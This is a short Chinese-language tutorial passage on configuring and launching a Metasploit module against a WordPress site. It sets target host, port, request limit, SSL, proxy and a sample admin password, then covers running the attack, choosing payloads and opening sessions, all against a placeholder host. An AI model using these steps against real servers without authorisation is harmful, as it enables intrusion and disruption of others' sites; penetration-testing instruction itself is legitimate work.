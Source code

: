 设置目标主机（RHOSTS）: 这是你想要攻击的目标服务器的 IP 地址或域名。

```bash
set RHOSTS target.com
```
设置目标端口（RPORT）: 默认是 80，如果目标服务器使用不同的端口，请更改它。

```bash
set RPORT 8080
```
设置请求限制（RLIMIT）: 这是要发送的请求的数量。默认是 1000。

```bash
set RLIMIT 1000
```
设置目标 URI（TARGETURI）: 如果 WordPress 安装在子目录中，你需要设置这个。

```bash
set TARGETURI /wordpress/
```
设置 SSL（SSL）: 如果目标网站使用 HTTPS，将这个选项设置为 true。

```bash
set SSL true
```
设置代理（Proxies）: 如果你想通过代理进行攻击，可以设置这个选项。

```bash
set Proxies http:127.0.0.1:8080
```
设置虚拟主机（VHOST）: 如果目标服务器使用虚拟主机，设置这个选项。

```bash
set VHOST virtualhost.com
```
运行攻击: 一旦所有设置都完成，你可以运行攻击。

```bash
run
```

```bash
set RHOSTS target.com
set USERNAME admin
set PASSWORD password123
```
执行攻击：一切准备就绪后，输入 exploit 或 run 来执行攻击。

```bash
exploit
```
有效载荷（Payloads）：某些模块允许你设置不同类型的有效载荷。你可以使用 show payloads 查看可用的有效载荷，并用 set PAYLOAD 来设置。

获取会话（Sessions）：成功的攻击通常会创建一个会话，你可以用 sessions 命令查看它们。

```bash
sessions -l
```
交互式会话：使用 sessions -i [会话ID] 进入交互式会话。

```bash
sessions -i 1
```
